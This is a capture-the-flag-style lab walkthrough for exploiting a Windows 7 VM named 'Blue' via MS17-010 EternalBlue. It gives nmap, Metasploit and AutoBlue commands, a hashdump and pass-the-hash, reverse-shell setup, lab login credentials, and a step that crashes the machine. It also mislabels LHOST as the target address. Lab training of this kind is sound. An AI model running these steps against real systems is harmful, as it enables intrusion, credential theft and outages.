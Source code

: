 # Blue Walkthrough

## Enumeration
Once you have Windows running in the foreground, log in to `Blue` using the credentials `Administrator` for the user name and `Password456!` for the password. Go to the Start Menu and search by typing in `cmd` so that we can get the IPv4 address of the machine using `ipconfig`.
![[Pasted image 20220223152655.png]]
Start up your attack machine and open a terminal. We set `$IP` using `export IP=<address>` to the IP address like the one highlighted above. This way, while in the same terminal tab, we don't need to type out the IP every time we want to use it. Use `nmap` to search for services used by windows and save the output to `$IP-blue-scan`.
```bash
nmap -p- -A -T4 $IP -oA $IP-blue-scan
```
From the output, we see that our version of Windows is using the "Windows 7 Ultimate version 7601 Service Pack 1".
![[Pasted image 20220223153535.png]]
Go to Google and search for the exploit to this. There are several, one of which is with Metasploit and another we will use from GitHub. 

## With MetaSploit
After searching around on Google, we find that the box is vulnerable to MS17-010 EternalBlue and we can confirm this in with the `auxiliary` scanner so lets get it started.
`msfconsole` to start metasploit
`search eternalblue` to search for the EternalBlue exploit
`use auxiliary/scanner/smb/smb_ms17_010` for SMB RCE detection
`options` to list out our options. We need to set the `RHOSTS` only and then run the exploit by using either `run` or `exploit`.
![[Pasted image 20220223155021.png]]
Now that we know the box is vulnerable to EternalBlue let us search for it using `search eternalblue`
`use exploit/windows/smb/ms17_010_eternalblue`
`options`
`set rhosts <ip-address>`
`check` : this will confirm that it is indeed vulnerable
![[Pasted image 20220223160805.png]]
Now we can set our `LHOST` using `set lhost <ip-address>` and run the exploit.

Sometimes you'll see that the exploit didn't work as shown below and you have to do it over because the session wasn't created so try it again.
![[Pasted image 20220223151540.png]]

Got the hashdump:
![[Pasted image 20220223142124.png]]
Use Pass-the-Hash toolkit to bypass access for the Administrator. Per MITRE ATT&CK:
> Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash.
source: https://attack.mitre.org/techniques/T1550/002/

## Without MetaSploit
Search in google for `eternalblue github` and find one that has good documentation.
There is one called AutoBlue and this is the one that we will be using: https://github.com/3ndG4me/AutoBlue-MS17-010.git
`cd /opt/` and `git clone` that repo and`cd AutoBlue-MS17-010` where we will install necessary libraries with 
```bash
pip install -r requirements.txt
```
We can now check to see if `Blue` is vulnerable with:
```bash
python eternal_checker.py $IP
```
**"target not patched"** means it is not patched against the Eternal Blue exploit.

Running the AutoBlue checker we get:
![[Pasted image 20220223141633.png]]

Now go into the`shellcode` folder and run `shell_prep.sh` with sudo privileges.
```bash
sudo ./shell_prep.sh
```
![[Pasted image 20220223163111.png]]
Enter the following:
`LHOST`: Target IP address
`LPORT`: Target port x64 (can be anything like 9999 and for x86 just ignore it and put something like 2222).
And for the other two:
![[Pasted image 20220223150202.png]]
This will start a listener and depending on what you entered should start our listener.
![[Pasted image 20220223150605.png]]
### Crashing the Blue VM
Going back up to the parent directory of AutoBlue, we can try the exploit which will cause Windows to crash.
![[Pasted image 20220223150922.png]]
Windows will either show a Blue screen or need to restart. So make sure you know what you are doing when running scripts off GitHub.